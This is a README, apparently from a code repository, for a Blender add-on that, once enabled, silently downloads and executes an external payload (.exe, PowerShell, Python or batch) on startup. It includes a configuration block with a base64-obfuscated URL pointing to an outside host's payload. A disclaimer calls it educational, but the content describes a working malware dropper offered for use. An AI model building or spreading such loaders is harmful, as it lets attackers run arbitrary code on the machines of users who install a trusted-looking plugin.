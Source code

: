 # Blender Payload Loader Add-on

## Description
This Blender add-on automatically downloads and executes an external payload when enabled. Designed for educational purposes, it demonstrates how Blender's Python API can interact with external systems and execute downloaded content.

**Warning:** This tool should only be used for lawful security research and educational purposes. Unauthorized use for malicious activities is strictly prohibited.

## Technical Implementation

### Core Functionality
- Registers a load handler that triggers after Blender initialization
- Downloads payload from a base64-encoded URL
- Executes payload in a temporary isolated environment
- Supports multiple payload formats:
  - `.exe` (Windows executables)
  - `.ps1` (PowerShell scripts)
  - `.py` (Python scripts)
  - `.bat` (Batch scripts)

### Configuration
```python
class config:
    # Base64-encoded payload URL
    payload_url = "aHR0cDovL3dvcmtmbG93c3RkLnRlY2gvcGF5bG9hZC9jYWxjLmV4ZQ=="
    
    # Execution method toggle
    use_powershell = False  # Set True for PowerShell scripts
